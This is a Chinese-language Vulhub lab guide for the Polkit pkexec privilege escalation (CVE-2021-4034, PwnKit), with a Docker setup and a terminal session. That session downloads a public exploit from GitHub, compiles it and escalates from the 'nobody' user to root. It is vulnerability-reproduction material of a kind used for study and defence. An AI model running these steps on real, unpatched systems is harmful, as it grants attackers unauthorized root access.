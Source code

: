 # Polkit `pkexec` 权限提升漏洞（CVE-2021-4034）

Polkit（之前名为PolicyKit）是一个权限相关的套件，pkexec是其中用于以其他用户身份执行命令的工具，它具有suid权限。

当前版本的pkexec中没有正确处理参数和环境变量，导致攻击者可以利用这个Bug劫持环境变量`GCONV_PATH`，进而劫持动态链接库，以root身份执行任意代码。

参考链接：

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034
- https://xz.aliyun.com/t/10870

## 漏洞环境

> 说明: Linux内核在这个[commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)中修复了[`argc==0`的Bug](https://lwn.net/Articles/882799/)，而Docker环境会使用宿主机的内核，所以你需要在低版本的Linux内核中复现这个漏洞。

因为这个漏洞不是存在于一个服务中，所以Vulhub只是提供了一个包含Polkit（PolicyKit）v0.105版本套件的Ubuntu。

你可以执行下面的命令，进入这个Ubuntu的交互式shell环境中：

```
docker-compose run --rm cmd bash
```

此时，执行`id`命令可以看见，你是普通用户`nobody`：

![](2.png)

## 漏洞利用

使用[这个项目](https://github.com/berdav/CVE-2021-4034)来利用CVE-2021-4034：

```
nobody@a083d335d026:/$ cd /tmp/
nobody@a083d335d026:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2022-02-12 09:33:21--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2022-02-12 09:33:21--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: 'main.tar.gz'

main.tar.gz                                              [ <=>                                                                                                                  ]   4.08K  --.-KB/s    in 0s

2022-02-12 09:33:22 (61.8 MB/s) - 'main.tar.gz' saved [4176]

nobody@a083d335d026:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
nobody@a083d335d026:/tmp$ cd CVE-2021-4034-main/
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root)
```

![](1.png)

上图可见，执行提权程序后，我们已经成为了root用户。
